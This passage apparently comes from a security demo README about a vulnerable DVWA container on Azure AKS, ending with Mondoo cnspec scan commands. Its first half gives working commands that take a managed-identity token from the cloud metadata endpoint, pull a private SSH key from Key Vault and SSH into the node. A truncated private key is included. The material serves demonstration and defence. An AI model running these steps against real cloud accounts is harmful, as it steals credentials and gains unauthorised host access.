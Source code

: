 ```text
{ "name": "keyvault", "value": "keyvaultLunalectric-akic" }
```

Get the token and query for the key:value

```text
TOKEN=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net" -H "Metadata: true" | jq -r ".access_token" ) && curl -vk -s -H Metadata:true --noproxy "*" 'https://keyvaultLunalectric-akic.vault.azure.net/secrets/private-ssh-key?api-version=2016-10-01' -H "Authorization: Bearer $TOKEN"
```

Extract the ssh private key and save it in `key-ssh`

```
----BEGIN RSA PRIVATE KEY-----\nMIIJKgIBAA
....
```

Fix the format of the ssh private key and the permissions

```bash
cat key-ssh |sed 's/\\n/\n/g' > new-ssh-key

chmod 600 new-ssh-key
```

Get the public IP of the AKS node

```bash
curl -4 icanhazip.com
```

Connect via ssh to the AKS node

```bash
ssh -o StrictHostKeyChecking=no -i new-ssh-key ubuntu@40.88.137.64
```

## Mondoo scan commands

### Scan kubernetes manifest

```bash
cnspec scan k8s --path ../assets/dvwa-deployment.yml
```

### Scan container image from registry

```bash
cnspec scan container docker.io/pmuench/dvwa-container-escape:latest
```

### Scan kubernetes aks cluster

```bash
cnspec scan k8s
```
